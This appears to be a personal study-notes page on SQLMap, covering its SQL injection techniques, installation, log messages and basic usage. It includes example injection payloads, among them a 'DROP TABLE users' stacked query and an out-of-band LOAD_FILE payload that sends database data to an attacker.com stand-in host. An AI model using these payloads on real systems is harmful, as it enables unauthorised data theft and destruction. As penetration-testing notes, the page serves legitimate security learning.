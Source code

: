 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
[SQLMap](https://github.com/sqlmapproject/sqlmap) is a tool for automating the process of detecting and exploiting SQLi vulnerabilities. It supports a plethora of databases types and the following techniques:
- `B` : Boolean-based blind - `AND 1=1`
- `E` : Error-based - `AND GTID_SUBSET(@@version,0)`
- `U` : Union query-based - `UNION ALL SELECT 1,@@version,3`
- `S` : Stacked queries - `; DROP TABLE users`
- `T` : Time-based blind - `AND 1=IF(2>1,SLEEP(5),0)`
- `Q` : Inline queries - `(SELECT @@version)`
- ` ` : Out-of-band injection - `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

## Installation
```
sudo apt install sqlmap

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Documentation
**Cheatsheet:** 
**Website:** https://github.com/sqlmapproject/sqlmap

## Important log messages
- `Target URL content is stable` : means that the responses are fairly consistent meaning its easier to spot the effects of SQLi attempts
- `GET parameter 'id' appears to be dynamic` : `dynamic` means that changes made to its value, change the output in the response (opposite is `static`)
- `heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')` : means that the get parameter needs to be tested further and it has attempted to guess the DBMS provider based on output.
- `heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks` : SQLMap also quickly runs XSS tests. Its nice to have when running against large websites, *two birds with one stone*.
- `reflective value(s) found and filtering out` : a warning to say that some parts of the payload can be seen in the output so they need to be filtered out before comparing the original page content (*SQLMap does this filtering automatically*).
- `GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")` : This means that SQLMap believes this parameter is a boolean-based blind injection. The `with --string="luther"` is important as it shows that its using this consistent value as its source of TRUE and FALSE responses; this is good as we don't need to use advanced internal mechanisms which could be more susceptible to false-positives.
- `time-based comparison requires a larger statistical model, please wait...(done)` : uses a statistical model for the recognition of regular and (deliberately) delayed target responses. To use this model, SQLMap must collect a large number of responses.
- `automatically extending ranges for UNION query injection technique tests as there is at least on other (potential) technique found` : it takes a large number of requests needed to be able to recognise usable UNION payloads, compared to other techniques. It is capped by default but this cap it extended if there is a good chance of vulnerability.
- `Get parameter 'id' is vulnerable. Do you want to keep testing the others (if any)?` : if we are doing a pentest then we want to test everything, not just find a single vulnerability.

## Usage
```bash
sqlmap -h # Basic options (most common)
sqlmap -hh # Advanced options
```
> A useful trick is to take a HTTP request in 
### GET Parameters
```bash
sqlmap -u "https://example.com/index.php?id=1" --batch
```
> `--batch` skips all user-input, automatically choosing based on the default options

